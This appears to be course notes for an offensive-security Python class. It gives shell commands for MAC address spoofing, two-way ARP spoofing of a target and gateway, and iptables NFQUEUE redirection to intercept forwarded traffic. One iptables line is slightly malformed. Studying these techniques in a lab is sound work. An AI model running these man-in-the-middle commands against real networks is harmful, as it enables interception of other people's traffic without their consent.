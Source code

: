 # Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

## Intercepting Packets
```
iptables -I FORWARD -j NFQUEUE queue-num 0
```

--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")

